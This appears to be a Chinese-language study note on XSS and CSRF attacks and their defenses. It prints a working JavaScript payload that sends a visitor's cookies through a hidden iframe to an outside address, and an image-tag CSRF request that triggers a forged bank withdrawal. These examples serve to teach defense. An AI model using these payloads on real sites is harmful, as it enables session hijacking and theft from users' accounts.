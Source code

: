 ## XSS

+ Cross site scripting，全称“跨站脚本”
+ 特点是不对服务器造成任何伤害，而是通过一些正常的站内交互途径，例如发布评论时，提交含有js的内容文本，而服务器没有过滤掉或者转义掉这些脚本，作为内容发布到页面上，那么其他用户在访问的时候就会运行这些脚本。
+ for example：

```javascript

// 用 <script type="text/javascript"></script> 包起来放在评论中
(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    //将cookie拼接在url的后面
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);

```

另一个用户浏览了含有这个内容的页面将会跳转到http://192.168.123.123/myxss/并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。



+ 危害
  + 窃取用户的 Cookie；
  + 伪造虚假的输入表单骗取个人信息；
  + 显示伪造的文章或者图片。

+ 防范方法：
  + **httpOnly** 设置cookie能否通过js来访问，拥有httpOnly的cookie只能被服务器访问，客户端不能访问，可以用来防止**XSS脚本攻击**；
  + 对输入进行过滤或转义。



## CSRF

+ Cross-site request forgery,全称“跨站请求伪造”；

+ 可以理解为伪造请求，冒充用户在站内的正常操作；

+ 一个CSRF攻击需要两个**条件**：

  + 登录了一个受信任的网站A，并且本地存放了cookie；
  + 在不关闭A的情况下，访问了危险网站B。

  ​

#### 攻击原理

+ 当网页发起**http请求**的时候，浏览器首先会检查是否有对应域名的**cookie**，如果有，就会自动添加到**request header**中，发送给服务器；
+ 绝大多数网站是通过cookie等方式来辨识用户身份；
+ for example：

Web A为存在CSRF漏洞的网站，Web B为攻击者构建的恶意网站，User C为Web A网站的合法用户。

> 1. 用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A；

> 2. 在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A；

> 3. 用户未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B；

> 4. 网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A；

> 5. 浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。

  我们知道cookie是不能跨域的，那Web B是怎么把用户的在Web A的cookie发送出去的呢？

	*假设攻击者构造的是一个自动提交表单的页面*，攻击者虽然无法获知 cookie ，在Web B返回的自动提交表单页面将表单的 action 指向 Web A ，表单提交的 POST 请求就会带上用户在 Web A里的 cookie。

	还有就是`<a>`标签和`image`标签（GET型的CSRF的攻击手段），浏览器都会自动带上cookie。

更具体的例子：

假如一家银行用以执行转账操作的 URL 地址如下：

```
http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName。
```

那么，一个恶意攻击者可以在另一个网站上放置如下代码：

```
<img src="http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman">。
```

如果有账户名为 Alice 的用户访问了恶意站点，而她之前刚访问过银行不久，登录信息尚未过期，那么她就会损失 1000 美元。



+ 防范：
  + 使用验证码；token（令牌）；

    在访问敏感数据请求时，要求用户浏览器提供不保存在 Cookie 中，并且攻击者无法伪造的数据作为校验。例如服务器生成随机数并附加在表单中，并要求客户端传回这个随机数。

  + 验证 HTTP Referer 字段。

    根据 HTTP 协议，在 HTTP 头中有一个字段叫 Referer，它记录了该 HTTP 请求的来源地址。在通常情况下，访问一个安全受限页面的请求来自于同一个网站，比如需要访问 http://bank.example/withdraw?account=bob&amount=1000000&for=Mallory，用户必须先登陆 bank.example，然后通过点击页面上的按钮来触发转账事件。这时，该转帐请求的 Referer 值就会是转账按钮所在的页面的 URL，通常是以 bank.example 域名开头的地址。而如果黑客要对银行网站实施 CSRF 攻击，他只能在他自己的网站构造请求，当用户通过黑客的网站发送请求到银行时，该请求的 Referer 是指向黑客自己的网站。

    虽然 HTTP 协议对此字段的内容有明确的规定，但并无法保证来访的浏览器的具体实现，亦无法保证浏览器没有安全漏洞影响到此字段。并且也存在攻击者攻击某些浏览器，篡改其 Referer 字段的可能。Referer 首部字段位于 HTTP 报文中，用于标识请求来源的地址。检查这个首部字段并要求请求来源的地址在同一个域名下，可以极大的防止 CSRF 攻击。

  + 输入验证码

    因为 CSRF 攻击是在用户无意识的情况下发生的，所以要求用户输入验证码可以让用户知道自己正在做的操作。

## 防范手段

### 1. 检查 Referer 首部字段



### 2. 添加校验 Token

在访问敏感数据请求时，要求用户浏览器提供不保存在 Cookie 中，并且攻击者无法伪造的数据作为校验。例如服务器生成随机数并附加在表单中，并要求客户端传回这个随机数。

### 3. 输入验证码

因为 CSRF 攻击是在用户无意识的情况下发生的，所以要求用户输入验证码可以让用户知道自己正在做的操作。

## 结语

以上就是关于csrf和xss攻击的小小总结，关于两种攻击的防范方法写的不是很全，有兴趣，可以上网看一下～理解了原理，对于防范方法的理解会容易很多。再附上两个参考链接：

https://www.jianshu.com/p/78f65023cf9d

http://adoyle.me/blog/how-csrf-works.html

https://www.ibm.com/developerworks/cn/web/1102_niugang_csrf/index.html